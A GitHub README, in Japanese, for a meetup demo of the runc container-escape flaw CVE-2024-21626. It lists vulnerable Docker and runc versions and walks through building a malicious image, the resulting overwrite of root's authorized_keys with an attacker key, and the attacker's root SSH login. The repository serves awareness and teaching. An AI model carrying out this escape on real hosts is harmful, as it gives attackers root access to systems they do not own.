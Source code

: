 # CVE-2024-21626-demo

Container Runtime Meetup #5 のLT用のデモ。

公知情報に則り攻撃の危険性を周知する目的であり、悪用は厳禁です。

## スライド

[Container Runtime Meetup #5 〜そのイメージ、本当に信頼できますか？〜 CVE-2024-21626 でホストのrootを奪取する](https://docs.google.com/presentation/d/e/2PACX-1vRkoysMWPYk633s3DxKL9liSkmuCOIffWtjqRl8ZWN5zs5L7VL8THMMLyPDhsDoTHrQuGyDM78ppXik/pub?start=false&loop=false&delayms=60000)

## victim-server へのログイン

デモ用laptopのssh_configに `victim-server` として登録しているマシン。

```console
ssh victim-server
```

被害を受ける前提条件としてのバージョン情報:

```console
ubuntu@victim-server:$ docker --version
Docker version 20.10.25+dfsg1, build b82b9f3

ubuntu@victim-server:$ runc --version
runc version 1.1.10+ds1
commit: 1.1.10+ds1-1
spec: 1.1.0
go: go1.21.3
libseccomp: 2.5.4
```

## attacker-server へのログイン

同様に

```console
ssh attacker-server
```

## シナリオ

### 1. [victim-server] 悪意あるDockerイメージを誤って取得・ビルド・実行

```console
ubuntu@victim-server:~$ git clone git@github.com:laysakura/CVE-2024-21626-demo.git
ubuntu@victim-server:~$ cd CVE-2024-21626-demo/
ubuntu@victim-server:~/CVE-2024-21626-demo$ docker build -t myimage .
ubuntu@victim-server:~/CVE-2024-21626-demo$ docker run -it myimage
```

### 2. [victim-server] 意図せぬうちに `/root/.ssh/authorized_keys` が攻撃者の公開鍵で書き換えられている

本来は意図していないのでここでは何もしないが、状況確認のためのコマンドを示す。

```console
ubuntu@victim-server:~$ sudo cat /root/.ssh/authorized_keys
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKPHHGSytV6bL1ryaEKE9XNWN23piXdzsI3Rzxe20IF6 ubuntu@attacker-server
```

### 3. [attacker-server] victim-server へのrootログイン

```console
attacker@attacker-server:~$ ssh -i .ssh/id_ed25519 root@victim-server

root@victim-server:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## References

- <https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv>
- <https://github.com/NitroCao/CVE-2024-21626>
